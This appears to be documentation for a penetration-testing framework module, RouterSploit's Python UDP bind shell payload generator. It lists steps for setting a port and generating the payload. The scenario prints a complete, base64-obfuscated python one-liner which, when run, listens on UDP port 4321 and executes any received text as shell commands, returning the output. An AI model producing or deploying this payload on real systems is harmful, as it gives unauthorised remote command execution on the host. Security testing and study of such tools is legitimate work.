 ## Description

Module generates payload that creates interactive udp bind shell by using python one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/python_bind_udp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates python udp bind shell payload

## Scenarios

```
rsf > use payloads/cmd/python_bind_udp
rsf (Python Bind UDP One-Liner) > set rport 4321
[+] rport => 4321
rsf (Python Bind UDP One-Liner) > run
[*] Running module...
[*] Generating payload
python -c "exec('ZnJvbSBzdWJwcm9jZXNzIGltcG9ydCBQb3BlbixQSVBFCmZyb20gc29ja2V0IGltcG9ydCBzb2NrZXQsIEFGX0lORVQsIFNPQ0tfREdSQU0Kcz1zb2NrZXQoQUZfSU5FVCxTT0NLX0RHUkFNKQpzLmJpbmQoKCcwLjAuMC4wJyw0MzIxKSkKd2hpbGUgMToKCWRhdGEsYWRkcj1zLnJlY3Zmcm9tKDEwMjQpCglvdXQ9UG9wZW4oZGF0YSxzaGVsbD1UcnVlLHN0ZG91dD1QSVBFLHN0ZGVycj1QSVBFKS5jb21tdW5pY2F0ZSgpCglzLnNlbmR0bygnJy5qb2luKFtvdXRbMF0sb3V0WzFdXSksYWRkcikK'.decode('base64'))"
```
